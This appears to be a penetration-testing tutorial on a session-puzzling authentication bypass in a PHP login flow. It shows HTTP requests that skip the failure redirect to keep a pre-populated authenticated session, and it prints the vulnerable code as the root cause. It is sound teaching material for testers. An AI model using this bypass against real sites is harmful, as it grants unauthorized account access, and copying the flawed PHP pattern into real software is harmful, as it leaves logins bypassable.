

This variant of session puzzling does not depend on a session variable being shared between two unrelated features. Instead, the bug is a timing issue, the server writes authentication-related session variables before it actually knows the outcome of the authentication attempt. If the cleanup of that premature state depends on a step the attacker can skip, such as following a redirect, the authenticated state survives even though the login failed.

The underlying mistake is treating "set the session variable" and "confirm the user is allowed in" as the same moment in the code, when they are actually two separate steps that should only ever happen together.

---

## Identifying the Flaw

Start by testing a normal failed login to see how the application behaves:

```http
POST /login.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

Username=admin&Password=wrongpass
```

```http
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d
Location: /login.php?failed=1
```

Following the redirect lands on an error page that specifically names the username that failed:

```http
GET /login.php?failed=1 HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d
```

```http
HTTP/1.1 200 OK

Warning: Login failed for user admin
```

The username appears in this response despite the request to `/login.php?failed=1` containing no username parameter at all, only the cookie. That is the signal, the only way the server could know which username to display is if it had already stored it in the session during the prior POST request, before the credential check even resolved. Confirming this is straightforward, repeat the same GET request without the session cookie:

```http
GET /login.php?failed=1 HTTP/1.1
Host: webapp.corp
```

```http
HTTP/1.1 200 OK

Warning: Login failed for user!
```

Without a session, the message is generic, no username is available. This proves the username was written into session state as a side effect of the login attempt itself, independent of whether the attempt succeeded.

---

## Exploiting the Premature Write

Knowing that the session gets populated before the credential check resolves, the next question is when, or whether, it gets cleaned up. Directly requesting the protected page right after a failed login does not work:

```http
GET /profile.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d
```

```http
HTTP/1.1 302 Found
Location: /login.php
```

This suggests cleanup does happen, but the earlier test already showed that the username is still present if the `?failed=1` page is hit. That implies the cleanup logic is tied specifically to that redirect being followed, not to the failed login itself. If that is true, the fix should be to simply never follow the redirect.



In practice, intercept the login POST in Burp, send the invalid credentials, and capture the resulting `Set-Cookie` without letting the browser or the tool auto-follow the redirect:

```http
POST /login.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

Username=admin&Password=wrongpass
```

```http
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=8e9f0a1b2c3d4e5f6a7b8c9d0e1f2a3b
Location: /login.php?failed=1
```

Instead of requesting `/login.php?failed=1`, go straight to the protected endpoint with that cookie:

```http
GET /profile.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=8e9f0a1b2c3d4e5f6a7b8c9d0e1f2a3b
```

```http
HTTP/1.1 200 OK

Logged in as: admin
```

The failed credential check never cleared the session because the cleanup code only runs when the `failed` query parameter is processed. By never sending that request, the session is left in the state it was given immediately after the POST, authenticated, with no password ever having been validated.

### Root Cause in Code

```php
if (isset($_POST['Submit'])) {
    $_SESSION['Username'] = $_POST['Username'];
    $_SESSION['Active'] = true;

    if (login($_POST['Username'], $_POST['Password'])) {
        header("Location: profile.php");
        exit;
    } else {
        header("Location: login.php?failed=1");
        exit;
    }
}

if (isset($_GET['failed'])) {
    $_SESSION = [];
    session_destroy();
    session_start();
}
```

`Username` and `Active` are set unconditionally, before `login()` is ever called. The branching only decides which redirect to send, it does not decide whether the session should hold authenticated state. Cleanup is implemented as a side effect of loading a specific page rather than as a side effect of the credential check failing, which means the two are only coupled as long as the client actually requests that page.

---

## Generalizing the Technique

The pattern to look for during testing is any process that writes session state reflecting an outcome before that outcome has been determined, especially when the write happens to support something cosmetic, like showing a username in an error message, logging an attempt, or pre-filling a form. Any time an application needs "the username that was just attempted" for display purposes, there is a good chance it reached for the same variable that also marks a user as authenticated.

|Signal during testing|Why it matters|
|---|---|
|Error page reflects input that was not part of its own request|Indicates server-side state was written earlier in the flow|
|Behavior differs with and without the session cookie on an unauthenticated page|Confirms session variables are driving the response|
|Cleanup appears tied to a specific follow-up request rather than to the failed operation itself|Cleanup can likely be skipped by not sending that request|
|Multi-step flows where step N relies on state from step N-1 without re-validating it|Candidate for skipping steps or dropping specific requests|

The practical testing habit this creates is to always inspect each redirect in a multi-step or conditional flow as a separate, optional request rather than something that automatically happens. Any tool or browser that auto-follows redirects will hide this class of bug completely, manual request replay with the redirect deliberately dropped is what reveals it.